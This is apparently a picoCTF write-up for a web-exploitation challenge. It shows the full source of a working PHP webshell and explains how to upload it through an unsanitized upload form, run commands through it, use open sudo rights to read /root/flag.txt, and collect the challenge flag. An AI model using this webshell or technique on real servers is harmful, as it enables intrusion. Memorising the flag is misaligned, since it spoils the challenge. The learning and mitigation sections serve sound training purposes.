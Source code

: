 # [n0s4n1ty 1](#)

## Challenge Information

- **Category**: Web Exploitation
- **Difficulty**: Medium
- **Description**: A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your ultimate goal is to find the hidden flag located in the `/root` directory.

## Solution Overview

This challenge involves exploiting an **unsanitized file upload** vulnerability that allows arbitrary files to be uploaded and executed on the server. By leveraging this weakness, we can gain a **remote shell**, escalate privileges if necessary, and retrieve the flag.

## Hints

- **File upload was not sanitized.**
- **Whenever you get a shell on a remote machine, check `sudo -l`.**

## Detailed Walkthrough

### Step 1: Locate the File Upload Functionality

1. Navigate to the provided web page.
2. Look for an **upload button** or a **form field** that accepts image files (e.g., `.jpg`, `.png`).
3. Upload a blank `.txt` file (e.g., `test.txt`) to verify that the upload function works.

### Step 2: Upload a Webshell

- Since `.php` files are not blocked, upload a **PHP webshell** such as:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

- After uploading, the server confirms:
  ```
  The file webshell.php has been uploaded Path: uploads/webshell.php
  ```
- Access it in the browser:
  ```
  http://target.com/uploads/webshell.php?cmd=whoami
  ```

### Step 3: Privilege Escalation

1. Check for **sudo permissions** inside the webshell:
   ```bash
   sudo -l
   ```
   The output reveals:
   ```
   Matching Defaults entries for www-data on challenge:
       env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   
   User www-data may run the following commands on challenge:
       (ALL) NOPASSWD: ALL
   ```
2. Since `www-data` has unrestricted sudo access, escalate privileges:
   ```bash
   sudo cat /root/flag.txt
   ```
3. Retrieve the flag:
   ```
   picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
   ```

## Tools and Resources Used

- [`easy-simple-php-webshell.php`](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)
## Flag

```
picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
```

## Learning Points

- How to exploit **unsanitized file uploads**
- Techniques for **bypassing file upload restrictions**
- Gaining **remote code execution** via **webshells**

## Mitigation Strategies

- **File Type Validation**: Restrict file uploads to only specific formats (e.g., `.jpg`, `.png`) using MIME type checks and server-side verification.
- **Least Privilege Principle**: Avoid running web applications as privileged users and restrict `sudo` access.

## References

- [easy-simple-php-webshell.php](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985#file-easy-simple-php-webshell-php)